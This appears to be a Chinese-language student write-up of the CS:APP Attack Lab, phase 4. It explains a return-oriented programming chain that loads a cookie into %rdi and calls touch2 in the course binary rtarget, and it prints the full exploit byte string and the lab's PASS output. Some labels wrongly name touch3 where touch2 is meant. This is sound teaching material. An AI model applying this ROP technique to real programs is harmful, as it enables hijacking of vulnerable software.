 我们的思路是先在第一个gadget中把cookie从栈上拿下来放在寄存器里,然后调用第二个gadget,
把cookie放到 %rdi中,并且调用touch2的地址..

因此,按照出栈从前往后的顺序,栈上应该放的地址为:

gadget 1的地址
cookie
gadget 2的地址
touch3 的地址


感觉问题解决了..

然而实际segment falut到怀疑人生...反复看了lab题面,以及CSAPP相关内容....


最后发现.. 是因为pop指令是popq,也就是一次会出栈8个byte...
而我是按照一次出栈4个byte来读入的..orz  蠢哭了好吗...


因此最终答案为:

```GAS

30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36 37 38 39
cc 19 40 00 00 00 00 00   /* address of <getval_280+2>,0x58 aka. pop %rax  */
fa 97 b9 59 00 00 00 00   /*  $0x59b997fa */
a2 19 40 00 00 00 00 00   /* address of <addval_273+2>,0x48 0x89 0xc7 aka.movq %rax,%rdi */
ec 17 40 00 00 00 00 00   /* address of touch3 */


```

```shell
$ Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 


```




## phase 5

看了下完成前四个phase已经拿到了 95/100的分数...

phase5更像是附加题...所以打算直接放弃掉了. 
